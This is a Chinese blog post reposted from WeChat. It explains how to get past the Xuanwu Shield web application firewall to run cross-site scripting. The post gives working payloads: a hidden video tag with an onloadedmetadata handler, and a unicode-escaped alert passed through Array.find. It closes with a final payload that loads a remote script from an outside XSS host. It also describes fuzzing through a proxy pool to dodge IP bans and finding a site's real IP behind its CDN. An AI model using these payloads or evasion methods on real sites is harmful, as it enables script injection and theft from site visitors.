


本文原发于星盟微信公众号 https://mp.weixin.qq.com/s/3Qz-ccL2Ynf1YnBlBxjgCQ , 博客转自本人仅做备份用途
起因
最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自XSS挑战第一期Writeup和XSS挑战第二期Writeup以及使用了fuzz的一些小技巧,可以实现任意js代码执行.
绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在另一篇文章收集的fuckcdn
有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.
fuzz起手
最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.
先上最终payload,payload不唯一,可以有无限多种变形.
1 | 6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video> |
大佬们应该一眼就看出来问题了.
玄武盾拦截的截图:

如果payload中存在onerror=,onload=这些事件,<img>,<script>这些标签或者alert,javascript这些敏感词,就会弹出玄武盾.
能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.
推荐一个开源的代理池,有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.
玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如<video>,<canvas这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.
html5标签大概有100多个,可以用我收集的html5标签字典.
使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.
比如HTML5_Security_Cheat_Sheet与html5sec,这里就不多说了.
比较容易用来构造xss的标签有video.
随手插入一个<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>,成功
既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.html5事件字典在这
很快就找到了比如:onloadedmetadata(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.
记得把video标签加上hidden属性.不然动静太大了.
还有一些其他可用的video的事件,请见他山之石 | 对 XSS 的一次深入分析认识
编码绕过
虽然绕过了关键字检测,但是如果直接用alert()还是会触发玄武盾.
这里就需要一个2014年乌云大佬们演示过的方法了.
通过数组实例的find()方法,用于找出第一个符合条件的数组成员.
find()的参数是一个回调函数.验证漏洞用alert即可.
当然alert关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将alert js编码为\u0061lert.稍微降低下payload长度,所以只编码一个字符就可以了.
这里需要详细解释下:
浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似<video>(<video>)这样的标签是不会解释的,但是在数据内部,比如<a href="javascript: alert()" >(<a href="javascript: alert()" >)则能执行js.
接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.
如果js解析器遇到了js编码,且在字符串中,也就是\u****类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.
所以,最终事件内payload为:
[1].find(\u0061lert)
成功执行
发送payload:

成功执行,绕过玄武盾.
当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:
1 | [1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'}) |
在最开头的两篇文章中偷来的,手动滑稽.
中间如果有被过滤的关键字,js编码下即可.
完美绕过玄武盾执行任意js代码.